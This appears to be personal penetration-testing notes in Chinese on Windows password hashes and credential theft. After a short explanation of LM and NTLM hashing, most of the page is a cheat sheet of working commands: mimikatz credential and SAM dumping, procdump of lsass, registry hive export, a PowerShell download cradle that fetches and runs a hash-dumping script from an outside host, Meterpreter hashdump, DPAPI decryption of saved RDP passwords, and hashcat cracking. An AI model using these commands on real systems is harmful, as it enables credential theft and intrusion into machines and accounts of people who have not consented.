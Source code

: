 ## Windows Hash
Windows使用
- LAN Manager Hash: 较老, 暴力破解
- NT LAN Manager Hash (v2)
- Kerberos

### LM-HASH
格式: `用户名称:RID:LM-HASH值:NTLM-HASH值`

基于DES加密
大小写不敏感
长度限制14字符, 即截取文本前14字符

LM-HASH值为`AAD3B435B51404EEAAD3B435B51404EE`时, 通常表示
- 用户密码为空
- 系统未使用LM-HASH算法处理密码

存储位置
- SAM文件, 本地计算机: `C:\windows\system32\config\SAM`
- NTDS.DIT文件, 域控制器: `C:\windows\NTDS\NTDS.dit`

由于LM-HASH最长为14, 算法会将其分为两组后分别变换, 分别进行DES加密后拼接. 所以, 当密码小于等于7位时, 后7位都是**补0**, 可以得知密钥长度范围
![](../../img/Pasted%20image%2020250609133303.png)

### NTLM-HASH
1. 将密码字符串转化为十六进制ACSII字符串
2. 十六进制转换位Unicode字符串
3. MD4(Unicode), 产生16字节的结果

## Windows 认证
- 本地认证
	1. `winlogon.exe`用户输入密码
	2. `lsass.exe`计算成NTLM Hash, 可以使用`mimikatz`读取明文密码
	3. 哈希值与SAM中的比对
	4. 登录结果
- 网络认证: 远程链接
![](../../img/Pasted%20image%2020250609141720.png)
- 域认证: 登录到域环境中的设备

hashcat破解
hashcat -m 5600 net-ntlm-hash /tmp/password.list -o found.txt --force

PTH攻击: Pass The Hash
NTLM认证协议中允许使用用户的密码哈希值进行认证, 不需要实际的密码
使用网络嗅探或利用漏洞等方式获取NTLM哈希, 模拟认证请求建立会话

## 系统用户凭证获取
### mimikatz 猕猴桃
https://github.com/gentilkiwi/mimikatz
`mimikatz.exe`

权限提升
`privilege::debug`

抓取登录密码
`sekurlsa::logonpasswords`

提升当前进程的令牌权限 --》administrator
`token::elevate`

从Windows SAM数据库中提取密码Hash
`lsadump::sam`

提取Windows系统中存储的敏感信息, 如密码, 密钥和其它凭据
`lsadump::secrets`

### Get-PassHashes
https://gitee.com/yijingsec/nishang/raw/master/Gather/Get-PassHashes.ps1
`powershell IEX(new-object net.webclient).downloadstring('http://192.168.81.154:8000/Get-PassHashes.ps1');Get-PassHashes`
### Procdump
微软Sysinternals套件中的工具, 捕获并转储正在运行的进程的内存, 即提取密码哈希和明文密码
https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

`procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp`

使用mimikatz还原
`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"`

注册表文件
```
# 导出 SYSTEM键值  
reg save HKLM\SYSTEM system.hiv  
# 导出 SAM键值  
reg save HKLM\SAM sam.hiv  
# 导出 SECURITY键值  
reg save HKLM\SECURITY security.hiv

# mimikatz分析到处的注册表文件
mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" "exit"
```

https://gitee.com/yijingsec/impacket/tree/master/examples
https://gitee.com/yijingsec/impacket-examples-windows

### LaZagne
https://github.com/AlessandroZ/LaZagne

### MSF - Meterpreter
post/windows/gather/hashdump
post/windows/gather/smart_hashdump
load kiwi

### Hash 破解
https://www.cmd5.com/
https://www.somd5.com/
https://www.sqlsec.com/2019/10/hashcat.html

## 其他密码凭证获取

### RDP链接密码
查看本地机器连接过的目标机器
`reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s`

查看RDP密码文件
`dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*`

保存在本地的远程主机信息, 包括RDP连接凭据
`cmdkey /list`

选取一个刚才的密码文件对其解密, 得到`guidMasterKey`
`privilege::debug`
`dpapi::cred /in:C:\Users\mingy\AppData\Local\Microsoft\Credentials\<Password Filename>

根据guidMasterKey, 找到对应的`Masterkey`
`sekurlsa::dpapi`

通过Masterkey解密pbData数据, 拿到明文RDP连接密码
`dpapi::cred /in:C:\Users\mingy\AppData\Local\Microsoft\Credentials\1E85A94EE31F584E484B8120E3ADA266 /masterkey:f391aa638da6b6d846685f84660ee638bd6d3122214de34285b4dd3bd827a5c3925c5bd7a448c175457c19b2556c9f6f5248ef9256060a5b74c1264d3a5a99f8`

### Cobaltstrike


### MySQL文件获取
`.frm`表结构
`.MYI`索引数据
`.MYD`表数据, 其中有用户密码

加密方式
- MYSQL323: MySQL 4.1以前, `Old_Password()`, 16位字符串
- MYSQLSHA1: 4.1及以后, `Password()`, 41位字符串

- `user.MYD` 保存了用户的密码, 使用二进制查看即可得到密码的HASH值
- 使用*hashcat*破解哈希值

`hashcat.exe -m 300 -a 3 81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`

`-m 300指定了323加密方式`